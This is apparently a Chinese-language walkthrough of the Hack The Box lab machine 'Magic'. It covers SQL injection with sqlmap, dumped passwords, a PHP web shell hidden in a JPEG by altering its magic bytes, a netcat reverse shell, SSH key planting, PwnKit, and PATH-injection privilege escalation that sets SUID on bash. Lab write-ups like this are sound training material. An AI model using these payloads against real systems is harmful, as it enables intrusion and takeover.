Medium难度，直接扫端口。
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
| 256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
| 256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Port 80 {.wp-block-heading}

一个图片展示网站。左下角显示可以login可以登录。
http://10.10.10.185/login.php （服务器运行php）

弱口令失败，magic，root，admin。随机输入错误用户名密码时会显示

试试SQLi 1’or'1’=‘1’– 没有跳出错误用户名与密码，但也没有登录。有点可疑。用户名里不能输入空格，打开burpsuite在里面加入空格并html encode试试

依然没有跳出“wrong Username or Password”。但等于页面确实会对字符“ ’ ” 有不同的回应。用sqlmap试试。
sqlmap -r req --batch -dbs --level=3 --risk=3
有sql注入漏洞，且提取到了两个数据库。提取Magic看看有什么。
sqlmap -r req --batch -dbs --level=3 --risk=3 -D Magic --tables
dump数据
sqlmap -r req --batch -dbs --level=3 --risk=3 -D Magic -T login --dump
Database: Magic
Table: login
[1 entry]
+----+----------------+----------+
| id | password | username |
+----+----------------+----------+
| 1 | Th3s3usW4sK1ng | admin |
+----+----------------+----------+ok，得到admin密码，试试在页面登录。登录成功：
http://10.10.10.185/upload.php

RCE
可以上传图片，已知服务器运行的有php，上传个php文件试试。

上传个test.php.jpg呢？php会识别.php.jpg文件后缀并当成php文件执行

哈哈，被抓到了。试试把php内容放到jpg里呢？
机器的名字像是给了个提示，试试改变文件的magic bytes
通过wikihttps://en.wikipedia.org/wiki/List_of_file_signatures查到jpg的magicbytes是 FF D8 FF E0
打开hexedit 修改后上传

成功了！刷新看看

右键打开新标签查看

显示jpg错误。一番操作后，发现了服务器会识别文件名后缀和文件的magic bytes，不会匹配content-type。
突发奇想，会不会是服务器先查看文件后缀是否匹配，然后再查看文件magic bytes呢？如果把后缀.php.jpg和修改magic bytes组合起来呢？
vim test.php.jpg >
<?php echo system($_GET['cmd']); ?>然后hexedit修改magic bytes

上传并打开：

rce成功。用https://www.revshells.com/ 网站生成一个pentest monkey的 php revshell上传
打开netcat监听
magic nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.185] 45358
Linux magic 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
21:08:11 up 2:18, 0 users, load average: 0.07, 0.02, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1199): Inappropriate ioctl for device
bash: no job control in this shell
www-data@magic:/$拿到revshell
Lateral Movement
先升级下shell
python3 -c 'import pty; pty.spawn("/bin/bash")'看看有什么用户

有个theseus用户。开放端口：
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:631 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -内网开放了631和3306
在/var/www/Magic/目录下
www-data@magic:/var/www/Magic$ ls -al
ls -al
total 52
drwxr-xr-x 4 www-data www-data 4096 Jul 12 2021 .
drwxr-xr-x 4 root root 4096 Jul 6 2021 ..
-rwx---r-x 1 www-data www-data 162 Oct 18 2019 .htaccess
drwxrwxr-x 6 www-data www-data 4096 Jul 6 2021 assets
-rw-r--r-- 1 www-data www-data 881 Oct 16 2019 db.php5
drwxr-xr-x 4 www-data www-data 4096 Jul 6 2021 images
-rw-rw-r-- 1 www-data www-data 4528 Oct 22 2019 index.php
-rw-r--r-- 1 www-data www-data 5539 Oct 22 2019 login.php
-rw-r--r-- 1 www-data www-data 72 Oct 18 2019 logout.php
-rw-r--r-- 1 www-data www-data 4520 Oct 22 2019 upload.php查看db.php5

得到数据库cred: theseus/iamkingtheseus 直接su用户看看有没有密码复用

啧，不行。用前面找到的Magic admin的密码试试

芜湖~在home/theseus下得到user flag. 查看/etc/ssh/ssh_config配置文件

ssh关闭了密码认证，在kali上创造一对密钥: ssh-keygen -t rsa -b 4096 -f magic
并把publick key上传到theseus/.ssh/authorized_keys

服务器没装curl 用wget上传key并登录

ok，ssh登录成功。
Root
交给linpeas 做enumeration吧。。找了一大圈，发现没什么可疑的。只能试试kernelexploit了.

试试Pwnkit https://codeload.github.com/berdav/CVE-2021-4034/zip/main
上传后运行：

Boom rooted.
Alternative way
官方Writeup用的是另一种方法。也是我懒，没有细看每一个SUID的binary。

linpeas找到了一个未知的suid binary。运行后输出系统信息。使用strings /bin/sysinfo查看binary里的字符串

发现系统在用cat /proc/cpuinfo 打印cpu信息而不是/bin/cat 这意味着有PATH injection漏洞。
在theseus主目录下创建一个文件cat, 并把路径加入PATH
echo "#/bin/bash\n chmod +s /bin/bash" > cat
chmod +x cat
export PATH=/home/theseus/:$PATH再次运行/bin/sysinfo后查看/bin/bash权限

rooted